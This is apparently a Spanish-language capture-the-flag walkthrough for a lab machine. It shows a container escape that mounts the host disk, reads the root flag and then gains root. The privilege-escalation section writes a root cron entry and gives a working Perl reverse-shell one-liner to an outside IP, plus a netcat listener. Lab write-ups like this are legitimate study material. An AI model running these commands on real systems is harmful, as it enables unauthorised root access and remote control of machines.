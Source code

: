 mirando la maquina vemos con el comando 
```bash
 df -h 
```
 que hay una montura /dev/sda2 tirando a /backup.
Si miramos un poco los /dev/sda*

```bash
ls -la /dev/sda*

#Output
/dev/sda
/dev/sda1
/dev/sda2
/dev/sda3
```

Montamos los directorios para ver lo que hay

```bash
mkdir /mnt/test
mount /dev/sda2 /mnt/test
cd /mnt/test
ls -la
cd root
ls -la
cat root.txt
```

Podemos leer la flag. Pero como queremos una shell interactiva continuamos.
## Privilege Escalation {-}

### Rootear la maquina (ganar accesso al systema completo){-}

```bash
cd /mnt/test/etc/cron.d
ls
echo '* * * * * root sh /tmp/reverse.sh' > tarea
cd ..
cd ..
cd tmp
```

creamos una reverse shell con perl

```bash
perl -e 'use Socket;$i="10.10.14.29";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

y la enviamos al contenedor con base64 en el directorio /mnt/test/tmp/ como reverse.sh

```bash
chmod +x reverse.sh
```

nos ponemos en escucha por el puerto 9999

```bash
nc -nlvp 9999
```

ya ganamos acceso a la maquina victima real como root.
